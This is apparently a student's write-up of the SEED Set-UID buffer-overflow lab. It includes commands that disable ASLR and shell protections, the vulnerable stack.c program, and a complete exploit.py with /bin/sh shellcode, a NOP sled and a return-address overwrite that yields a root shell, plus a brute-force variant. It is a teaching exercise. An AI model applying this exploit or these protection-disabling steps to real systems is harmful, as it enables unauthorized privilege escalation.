

# Buffer Overflow Attack Lab (Set-UID Version)

## Environment Setup

Modern operating systems have implemented several security mechanisms to make the buffer-overflow attack difficult. 

Ubuntu and several other Linux-based systems uses address space randomization to randomize the starting address of heap and stack.  This makes guessing the exact addresses difficult; guessing addresses is one of the critical steps of buffer-overflow attacks.

This protection, can be disabled with the command:

```bash
 $ sudo sysctl -w kernel.randomize_va_space=0
 ```

In the recent versions of Ubuntu OS, the/bin/sh symbolic link points to the/bin/dash shell. The dash program, as well as bash, has implemented a security countermeasure that prevents itself from being executed in a Set-UID process. Basically, if they detect that they are executed in a Set-UID process, they will immediately change the effective user ID to the process’s real user ID, essentially dropping the privilege.

Since  our  victim  program  is a Set-UID program, we will link /bin/sh to another shell that does not have such a countermeasur using the following command:

```bash
 $ sudo ln -sf /bin/zsh /bin/sh
 ```

# Task 1

After, we compiled "call_shell.c" using "make", two executables where created one for 32 bits and another for 64 bits. When running them, both opened a new shell in the same directory that we ran the program.


# Task 2

In the "stack.c" file we have the following code:

```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

/* Changing this size will change the layout of the stack.
 * Instructors can change this value each year, so students
 * won't be able to use the solutions from the past.
 */
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif

void dummy_function(char *str);

int bof(char *str)
{
    char buffer[BUF_SIZE];

    // The following statement has a buffer overflow problem 
    strcpy(buffer, str);       

    return 1;
}

int main(int argc, char **argv)
{
    char str[517];
    FILE *badfile;

    badfile = fopen("badfile", "r"); 
    if (!badfile) {
       perror("Opening badfile"); exit(1);
    }

    int length = fread(str, sizeof(char), 517, badfile);
    printf("Input size: %d\n", length);
    dummy_function(str);
    fprintf(stdout, "==== Returned Properly ====\n");
    return 1;
}

// This function is used to insert a stack frame of size 
// 1000 (approximately) between main's and bof's stack frames. 
// The function itself does not do anything. 
void dummy_function(char *str)
{
    char dummy_buffer[1000];
    memset(dummy_buffer, 0, 1000);
    bof(str);
}
```

This program has a buffer-overflow vulnerability. It starts by opening a file "badfile" and reading 517 bytes to an array of chars called str. Then, it calls the bof function and uses "strcpy" to copy data from the array to a buffer of chars with size of 100 bytes. This process causes an overflow because "strcpy" does not check boundaries.

For the vulnerable program, we disabled StackGuard and protections against code execution invoked from the stack. Additionally, we changed the program's owner to root and activated Set-UID.

This can be done with the following commands:

````bash
 $ gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c
 $ sudo chown root stack
 $ sudo chmod 4755 stack
 ````

Because the compilation and setup commands are already included in Makefile, we just need to type "make".


# Task 3

When running GDB, we got the ebp value and the buffer's address with the following steps:


After knowing these values, we need to prepare the *badfile*, so the next step is to complete the *exploit.py* file with the values we got from GDB.

Because this is an Attack on 32-bit Program, in the shellcode variable we insert the 32-bit shellcode from the *call_shellcode.c* file.


Then, we need to set the start position to the end of the buffer. Since the buffer's length is 517, the position is:


Furthermore, we now need to change the return address to one that will run our code. If the address points to any NOP's that come before the shellcode, it will run. So, we just need to add the *ebp* value to the *start* value.


Finally, the only thing left to do before running our attack is to change the offset value, which can be done with the opeation *ebp - buffer + 4*



After completing the python script, we end up with:

```
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"  
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload

start = 517-len(shellcode)         # Change this number 
content[start:start + len(shellcode)] = shellcode
# Decide the return address value 
# and put it somewhere in the payload

ret    = 0xffffcb28 + start           # Change this number 
offset = 0xffffcb28  - 0xffffcabc + 4 # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
 ```

 After running the script and creating the badfile, we just need to run *stack-L1*. This opens a shell and we can verify through the *whoami* command that we have a root shell:


# Task 4

At the start of this task, we use gdb to find the buffer adress, ignoring the buffer size "160".

.png)

We only know that it is between 100 and 200 so we populate our ret variable with the values we got and define some bounds. Then we run this cycle to populate the 'content' array with the bytes from the 'ret' variable. 

```
start =  517 - len(shellcode)# Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcac0 + start      # Change this number 
upper = 100
lower = 200                        # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
temp = (ret).to_bytes(L,byteorder='little')

for offset in range(upper, lower + L, L):
    content[offset:offset + L] = temp
```

Finally, by running the exploit we ge access to the shell.

.png)
